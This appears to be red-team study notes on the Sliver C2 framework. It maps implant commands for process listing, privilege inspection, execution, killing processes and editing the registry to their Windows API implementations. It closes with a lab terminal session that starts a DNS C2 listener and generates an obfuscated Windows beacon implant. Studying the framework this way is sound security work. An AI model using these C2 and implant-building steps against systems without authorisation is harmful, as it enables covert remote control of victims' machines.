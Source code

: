 **Process**

* `ps`: Shows a list of processes. Implemented based on the [CreateToolhelp32Snapshot](https://learn.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot) Windows API ([command handler](https://github.com/BishopFox/sliver/blob/v1.5.16/implant/sliver/handlers/rpc-handlers\_windows.go#L32) and [main implementation](https://github.com/BishopFox/sliver/blob/v1.5.16/implant/sliver/ps/ps\_windows.go#L132)).
* `geteprivs`: Shows the process integrity level of the implant process and the privileges. Implemented based on the [GetTokenInformation](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-gettokeninformation) Windows API ([command handler](https://github.com/BishopFox/sliver/blob/v1.5.16/implant/sliver/handlers/handlers\_windows.go#L577) and [main implementation](https://github.com/BishopFox/sliver/blob/v1.5.16/implant/sliver/priv/priv\_windows.go#L445)).
* `execute` Creates a new process given an executable and optionally some arguments. Implemented based on Golang’s [os/exec package](https://pkg.go.dev/os/exec) ([command handler](https://github.com/BishopFox/sliver/blob/v1.5.16/implant/sliver/handlers/handlers.go#L398) uses the `exec.Command` function, if the `--token` argument is used there is another [command handler](https://github.com/BishopFox/sliver/blob/v1.5.16/implant/sliver/handlers/handlers\_windows.go#L240) also using that function).
* `terminate`: kills as process given a PID. Implemented based on Golangs [os package](https://pkg.go.dev/os) ([command handler](https://github.com/BishopFox/sliver/blob/v1.5.16/implant/sliver/handlers/rpc-handlers.go#L46) and [main implementation](https://github.com/BishopFox/sliver/blob/v1.5.16/implant/sliver/ps/ps.go#L49) which uses `os.FindProcess` to get a process struct `p`, then `p.Kill` to kill it).
* `kill`: kills the current beacon or session. Implemented as a special handler on Windows. For DLL or shellcode implants, it does the following: If the `--force` flag is set, it calls [ExitProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-exitprocess) from `kernel32.dll`, else it called [ExitThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-exitthread) ([command handler](https://github.com/BishopFox/sliver/blob/v1.5.16/implant/sliver/handlers/special-handlers\_windows.go#L50)). For other implants, it just uses Golangs [os package](https://pkg.go.dev/os) to `Exit`, i.e., kill the current process.

**Registers**

* `registry read`: Read a value ([command handler](https://github.com/BishopFox/sliver/blob/v1.5.16/implant/sliver/handlers/handlers\_windows.go#L487)).
* `registry write`: Write a value ([command handler](https://github.com/BishopFox/sliver/blob/v1.5.16/implant/sliver/handlers/handlers\_windows.go#L457)).
* `registry create`: Create a new subkey ([command handler](https://github.com/BishopFox/sliver/blob/v1.5.16/implant/sliver/handlers/handlers\_windows.go#L505)).
* `registry delete`: Delete a key ([command handler](https://github.com/BishopFox/sliver/blob/v1.5.16/implant/sliver/handlers/handlers\_windows.go#L522)).
* `registry list-subkeys`: List all subkeys of a given key ([command handler](https://github.com/BishopFox/sliver/blob/v1.5.16/implant/sliver/handlers/handlers\_windows.go#L539)).
* `registry list-values`: List all values of a given key ([command handler](https://github.com/BishopFox/sliver/blob/v1.5.16/implant/sliver/handlers/handlers\_windows.go#L558)).

#### DNS  address in Beacon

#### DNS Beacons

```bash
sliver > dns -d dnsc2.labnet.local.

[*] Starting DNS listener with parent domain(s) [dnsc2.labnet.local.] ...

[*] Successfully started job #2

sliver > generate beacon --dns dnsc2.labnet.local --seconds 10 --jitter 0 --save /home/kali/Desktop/Sliver/dns-beacon.exe

[*] Generating new windows/amd64 beacon implant binary (10s)
[*] Symbol obfuscation is enabled
[*] Build completed in 2m6s
? Overwrite existing file? Yes
[*] Implant saved to /home/kali/Desktop/Sliver/dns-beacon.exe
```